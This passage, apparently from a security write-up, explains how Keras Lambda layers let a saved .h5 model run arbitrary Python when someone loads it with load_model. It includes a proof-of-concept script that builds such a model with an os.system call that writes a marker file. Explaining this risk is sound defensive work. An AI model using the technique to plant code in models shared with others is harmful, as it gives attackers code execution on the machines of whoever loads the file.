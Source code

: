 This layer allows to wrap **arbitrary Python expression** as a `Layer` object which can interact with the rest of the model.

![gif](hands.webp)

A warning is also present in the Lambda layer documentation stating the de-serialization issues that we will try to exploit:

![warning](warning.png)

## Loading models

Models in Tensorflow and Keras can be exported so that they can be shared with other people. A model can be easily loaded like so:

```py
import tensorflow.keras

MODEL_PATH = "my_amazing_model.h5"

model = tensorflow.keras.models.load_model(MODEL_PATH)
```

That's all it takes for a malicious model the exploit the person loading it! This is a very common way of loading models, and while this is only dangerous when accepting untrusted models, you can find the usage on Github to be quite large: [https://github.com/search?l=Python&q=load_model&type=code](https://github.com/search?l=Python&q=load_model&type=code). 

## Getting the RCE

Since any Python code can be serialized we are able to import the library `os` and then execute whatever command we want.

```py
import tensorflow as tf

def exploit(x):
    import os
    os.system("touch /tmp/pwned")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```
